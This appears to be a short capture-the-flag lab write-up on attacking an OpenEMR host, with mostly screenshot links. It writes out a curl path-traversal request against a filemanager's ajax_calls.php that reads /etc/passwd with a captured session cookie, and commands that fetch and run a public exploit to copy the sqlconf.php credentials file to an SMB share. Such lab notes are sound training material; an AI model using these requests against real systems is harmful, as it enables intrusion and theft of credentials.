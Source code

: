 ![](../attachment/f6556fda41be2f1c36cf4d2aeab57bf4.png)
There is openemr:
![](../attachment/162dc78bf8c236857a08ba5f869c9363.png)![](../attachment/f347cb9333584e5b5e3116da2299f8f2.png)

There are also files in source directory:
![](../attachment/7c6465f39c88fd822f2304cca2d5fedd.png)

There is also a filemanager directory:
![](../attachment/c29de0f3c1781275099626929477a738.png)
![](../attachment/18c0fe8b6e87827e54255266f02449fd.png)

Now checking searchsploit:
![](../attachment/eb8b4ce867d1de6aaa3cdc7dbd805973.png)
![](../attachment/524c60074e14f8b86c02fd0e42171497.png)

Now first capturing the cookie with burpsuite:
![](../attachment/2ae06a5f670696925c5c1081abbb8de9.png)
Now curl:
```
curl -X POST -d "path=../../../../../../../etc/passwd" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://192.168.190.145/filemanager/ajax_calls.php?action=get_file&sub_action=edit&preview_mode=text"
```
![](../attachment/209c19ad2bf1833bee97083243bd6bd9.png)

But we can not view php files
So using this exploit:
```
searchsploit -m php/webapps/49359.py
```
Now we can modify the exploit:
![](../attachment/1c461e33677134354a2537387cde35a1.png)
Now it will paste in /Documents folder which we discovered in smb.
```
python3 path.py http://192.168.190.145/ PHPSESSID=ue6febuau8psnqc5mu757o8ltg /var/www/openemr/sites/default/sqlconf.php
```
Check in smb at [[PG Practice/Apex/445]]
